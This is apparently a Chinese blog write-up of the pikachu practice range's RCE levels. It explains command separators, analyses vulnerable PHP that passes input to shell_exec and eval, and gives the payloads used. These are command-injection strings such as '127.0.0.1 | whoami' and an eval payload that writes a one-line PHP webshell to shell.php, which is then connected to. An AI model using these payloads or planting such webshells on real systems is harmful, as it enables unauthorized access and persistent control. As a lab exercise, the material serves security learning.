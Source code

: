 ```yaml
---
layout: post
title: pikachu-01 RCE
author: PWN022
tags:
- Network security
date: 2025-10-04 00:08 +0800
toc:  true
excerpt: ""
---
```


# pikachu-01 RCE(remote command/code execute)

# 概述

pikachu靶场的RCE远程命令执行关卡（2关）记录。

> **介绍**
> RCE远程命令/代码执行，RCE英文全称：remote command/code execute。它是一种极为严重的安全风险，允许攻击者在未授权的情况下，通过网络远程在目标系统上执行任意代码。攻击者利用 RCE安全风险，可直接获取系统的控制权，进而窃取敏感信息，如用户账号、密码、企业机密数据等；还能篡改系统文件和配置，破坏系统的正常运行，导致业务中断；甚至可以在系统中植入后门程序，长期控制目标系统，为后续的攻击活动提供便利。
>
> **远程系统命令执行**
> 一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口，比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上，一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 而，如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器。
>
> 现在很多的甲方企业都开始实施自动化运维,大量的系统操作会通过"自动化运维平台"进行操作。 在这种平台上往往会出现远程系统命令执行的漏洞,不信的话现在就可以找你们运维部的系统测试一下,会有意想不到的"收获"-_-
>
> **远程代码执行**
> 同样的道理,因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行,也就造成了远程代码执行漏洞。 不管是使用了代码执行的函数,还是使用了不安全的反序列化等等。因此，如果需要给前端用户提供操作类的API接口，一定需要对接口输入的内容进行严格的判断，比如实施严格的白名单策略会是一个比较好的方法。你可以通过“RCE”对应的测试栏目，来进一步的了解该漏洞。

## 常用符号

在命令执行安全风险场景里，&、&&、|、||、; 这些符号被攻击者用于拼接命令和控制命令执行流程，以下是它们的用法和区别如下所示。

1. &

   作用：在多数操作系统中，& 用于让命令在后台执行。在命令执行安全风险里，它能使多个命令并行执行，即前一个命令启动后，后续命令无需等待其完成就会开始执行。

   示例：假设存在安全风险的系统允许用户输入并执行命令，攻击者输入 ping 127.0.0.1 & ls，那么 ping 命令和 ls 命令会同时开始执行。

2. &&

   作用：&& 用于按顺序依次执行命令，并且只有当前一个命令成功执行（返回状态码为 0）时，才会执行后一个命令。这常用于需要前一个操作完成且成功后再进行下一步操作的情况。

   示例：输入 ping 127.0.0.1 && ls，只有当 ping 命令成功执行（即能正常连接到 127.0.0.1）时，ls 命令才会执行。

3. |

   作用：| 是管道符号，它把前一个命令的输出作为后一个命令的输入。攻击者可利用它将多个命令组合起来，实现复杂的数据处理和操作。

   示例：输入 ls | grep test，ls 命令会列出当前目录下的文件和文件夹，然后将结果传递给 grep 命令，grep 会在这些结果中查找包含 "test" 的行。同理也可以进行如ping 127.0.0.1 | whoami此类的操作。

4. ||

   作用：|| 同样用于连接两个命令，不过与 && 相反，只有当前一个命令执行失败（返回状态码不为 0）时，才会执行后一个命令。这可用于在某个操作失败时执行备用操作。

   示例：输入 false || ls，由于 false 命令执行失败，所以会接着执行 ls 命令。

5. ;

   作用：; 用于分隔多个命令，它会依次执行这些命令，无论前一个命令执行成功与否，后续命令都会继续执行。

   示例：输入 ping 127.0.0.1 ; ls，先执行 ping 命令，然后不管 ping 执行结果如何，都会执行 ls 命令。

# exec-ping

## 源码分析

```php
// 初始化一个空字符串变量 $result，用于存储执行命令后的结果
$result = '';
 
// 检查是否通过 POST 方式提交了表单，并且表单中名为 'ipaddress' 的字段不为空
if (isset($_POST['submit']) && $_POST['ipaddress'] != null) {
    // 从 POST 请求中获取用户输入的 IP 地址，并将其赋值给变量 $ip
    $ip = $_POST['ipaddress'];
    // $check=explode('.', $ip);
    // 这是一段注释掉的代码，原本意图是将 IP 地址按点号 '.' 拆分成数组，
    // 然后可以对数组中的每个数字进行范围校验，
    // 例如第一位和第四位数字范围是 1 - 255，中间两位数字范围是 0 - 255
    // $check = explode('.', $ip); 
 
    // 检查当前服务器操作系统是否为 Windows 系统
    if (stristr(php_uname('s'), 'windows')) {
        // var_dump(php_uname('s')); 这是一段注释掉的代码，用于打印当前服务器操作系统名称
        // 使用 shell_exec 函数执行 Windows 系统下的 ping 命令，将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping ' . $ip);
    } else {
        // 如果服务器操作系统不是 Windows 系统，则执行 Linux 系统下的 ping 命令，
        // 并指定 ping 的次数为 4 次，同样将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping -c 4 ' . $ip);
    }
}
```

## 解决乱码

在pikachu-master\vul\rce目录中找到rce_ping.php文件，按如下代码进行修改即可解决乱码问题。

```php
if($result){
	$result = iconv("GBK", "UTF-8", $result); // 添加此行代码
	echo "<pre>{$result}</pre>";
}
```

## 正式操作

由于windows和linux有3个命令连接符是相同的（|,||,&&），因此在不知道目标的具体操作系统的情况下（虽然是我自己搭建的环境，但是，假装不知道吧）。

输入payload：127.0.0.1 | whoami，结果如下图所示，执行完命令后，可以在页面看到已经获取到了目标的域和用户名：win-unahmjh2g8h\administrator，同时由于是administrator所以也知道了操作系统为Windows。

![alt](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce1.png)

输入payload：127.0.0.1 | dir，即可查看到当前路径和路径下的文件。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2.png)

当然还有其它操作，比如输入payload：127.0.0.1 | ipconfig可以查看到目标的IP地址。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce3.png)

# exec-eval

## 源码分析

前端：name="txt"产生 POST 字段，后端：用户输入未被过滤直接传入eval()函数中。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-5.png)

## 正式操作

题目给到提交一个喜欢的字符串，所以就先随便扔点东西上去。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-1.png)

这里发现好像没什么限制，所以直接不演了，payload直接输入phpinfo();发现被执行，所以再试试能不能植入一句话木马。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-2.png)

```php
// 一句话木马投放
// payload：
fputs(fopen('shell.php','w'),'<?php assert($_POST[fin]);?>');
```

提交一句话之后，发现页面没什么变化，但是当返回靶机进行查看后，发现目录下已经多了一个shell.php的文件，遂用蚁剑进行连接，于是整个关卡到此结束。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-3.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-4.png)

